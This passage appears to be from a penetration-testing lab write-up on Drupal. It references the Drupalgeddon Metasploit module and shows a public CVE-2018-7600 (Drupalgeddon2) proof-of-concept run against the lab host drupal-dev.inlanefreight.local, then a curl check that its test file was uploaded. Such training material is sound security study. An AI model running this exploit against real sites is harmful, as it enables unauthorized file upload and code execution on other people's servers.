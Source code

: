 <figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://drupal-qa.inlanefreight.local/user#overlay=admin/people</p></figcaption></figure>

We could also use the [exploit/multi/http/drupal\_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/) Metasploit module to exploit this.

***

## Drupalgeddon2

We can use [this](https://www.exploit-db.com/exploits/44448) PoC to confirm this vulnerability.

```shell-session
$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```

We can check quickly with `cURL` and see that the `hello.txt` file was indeed uploaded.

```shell-session
$ curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```
